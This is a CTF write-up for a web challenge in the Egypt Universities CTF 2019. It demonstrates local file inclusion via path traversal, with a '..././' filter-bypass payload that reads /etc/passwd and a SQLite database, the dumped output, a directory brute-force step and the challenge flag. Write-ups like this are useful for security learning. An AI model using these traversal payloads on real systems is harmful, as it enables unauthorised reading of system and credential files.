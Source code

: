 # Egypt-Universities-CTF-2019

Hey all this is 0xN1ghtRa1d , this is our writeups for Egypt-Universities-CTF-2019 .

# Category

Web Security

# Points

200

# Description

LFI ( Local File Inclusion )
------------------------------

Page :  `http://3.121.98.79/E-CORP/?page=home.php`
trying to test simple payload `file:///etc/passwd`

Results : 
> Warning: include(./application/views/file:///etc/passwd): failed to open stream: No such file or directory in /var/www/html/E-CORP/index.php on line 84

>Warning: include(): Failed opening './application/views/file:///etc/passwd' for inclusion (include_path='.:/usr/share/php') in /var/www/html/E-CORP/index.php on line 84

you will get this error then we can use another method to get back into this dir /application/views/
`../../../../../../../../../../../etc/passwd` 

Results :
> Warning: include(./application/views/etc/passwd): failed to open stream: No such file or directory in /var/www/html/E-CORP/index.php on line 84

>Warning: include(): Failed opening './application/views/etc/passwd' for inclusion (include_path='.:/usr/share/php') in /var/www/html/E-CORP/index.php on line 84

It is clear that the application is removes `../`  from the `page` value
So, we will circumvent the site by adding this value `..././` instead of `../` 
payload : `..././..././..././..././..././..././..././..././etc/passwd` the application will remove `../` from `..././..././..././..././..././..././..././..././etc/passwd` So the last result will be `../../../../../../../etc/passwd`


Results :

>root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false syslog:x:104:108::/home/syslog:/bin/false _apt:x:105:65534::/nonexistent:/bin/false lxd:x:106:65534::/var/lib/lxd/:/bin/false messagebus:x:107:111::/var/run/dbus:/bin/false uuidd:x:108:112::/run/uuidd:/bin/false dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin pollinate:x:111:1::/var/cache/pollinate:/bin/false ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash 
 
 
Done !!
We will do Directory Bruteforce attack to search for the file that contains the flag

>[16:09:34] 200 -    4KB - /E-CORP/index.php
[16:09:55] 200 -   11B  - /E-CORP/LICENSE
[16:13:22] 200 -  939B  - /E-CORP/README.md
[16:13:27] 200 -   54B  - /E-CORP/robots.txt

`robots.txt`/`README.md`/ is public ! 

`/robots.txt` : 
>User-agent: *
>Disallow: /README.md
>Disallow: /LICENSE

`/README.md` :

>
>$config = array();
>
>// Environment
>// $config['environment'] = 'production';
>$config['environment'] = 'development';
>
>// Security
>$config['secure'] = true;
>
>// Error reporting.
>if ($config['environment'] === 'production') {
>	ini_set('display_errors', 0);
>	error_reporting(E_ALL & ~E_NOTICE & ~E_DEPRECATED & ~E_STRICT & ~E_USER_NOTICE & ~E_USER_DEPRECATED);
}
>
>
>// Database.
>$config['database-path'] = dirname(__FILE__) . `'/../database/E-Corp.db'`;
>$config['db'] = new SQLite3($config['database-path']);
>
>// Pages
>$config['pages'] = array('home.php', 'about.php', 'contact.php');
>$config['default-page'] = $config['pages'][0];


Certainly, `../database/E-Corp.db` contains the flag
`../database/E-Corp.db` >> `..././database/E-Corp.db`
we will include it  using  Payload `..././datbase/E-Corp.db` 

Results : 


>SQLite format 3@ .;� ����P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)�5�QtableempempCREATE TABLE emp ( id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT NOT NULL UNIQUE, description TEXT NOT NULL, image TEXT NOT NULL, secret TINYINT NOT NULL )%9indexsqlite_autoindex_emp_1emp ~0V _�~�4�5�1 SecretDatabase encrypted & secured by Allsafe Cybersecurity Group flag{LFI_l00k5_s0_c00l}.https://images-wixmp-ed30a86b8c4ca887773594c2.wixmp.com/i/c440cf7a-e325-4f07-9bf5-e253ea414d7b/d9gp63e-d5e5a516-9878-4acc-9934-2434945d0e15.jpg/v1/fill/w_622,h_350,q_70,strp/allsafe_by_threebik_d9gp63e-350t.jpg�''=�Scott KnowlesChief Technology Officerhttps://vignette.wikia.nocookie.net/mrrobot/images/d/d2/Scott.png/revision/latest/scale-to-width-down/310?cb=20150829181743�t)�=�Tyrell WellickSenior Vice President of Technology (former), Hacker, Chief Technology Officer (current)https://vignette.wikia.nocookie.net/mrrobot/images/1/1a/Mr.-Robot-1x04-3.jpg/revision/latest/scale-to-width-down/310?cb=20150725100044�W#��Terry Colbycareer executive, formerly Chief Technology Officer (CTO) of E Corphttps://vignette.wikia.nocookie.net/mrrobot/images/5/54/Terry_Colby.png/revision/latest/scale-to-width-down/310?cb=20150602173801�M')�cPhillip PriceCEO of E Corp.https://vignette.wikia.nocookie.net/mrrobot/images/d/dd/Tumblr_e4e0d09f125afbdd165cd11b97acba0c_3553aa05_1280.jpg/revision/latest/scale-to-width-down/310?cb=20190928214408 ������ Secret'Scott Knowles)Tyrell Wellick#Terry Colby' Phillip Price ��emp 



# Flag

flag{LFI_l00k5_s0_c00l}
 
